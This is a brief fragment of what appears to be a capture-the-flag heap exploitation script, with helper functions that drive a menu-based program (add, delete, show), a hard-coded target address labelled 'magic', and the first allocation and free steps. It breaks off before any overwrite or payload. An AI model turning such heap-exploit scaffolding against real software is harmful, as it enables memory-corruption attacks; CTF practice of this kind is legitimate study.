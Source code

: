 ```

def add(size, content):

    r.recvuntil(":")

    r.sendline("1")

    r.recvuntil(":")

    r.sendline(str(size))

    r.recvuntil(":")

    r.sendline(content)





def dele(idx):

    r.recvuntil(":")

    r.sendline("2")

    r.recvuntil(":")

    r.sendline(str(idx))





def show(idx):

    r.recvuntil(":")

    r.sendline("3")

    r.recvuntil(":")

    r.sendline(str(idx))







magic = 0x0400d86



add(32, "aaaa") 

add(32, "bbbb") 





dele(0) 

```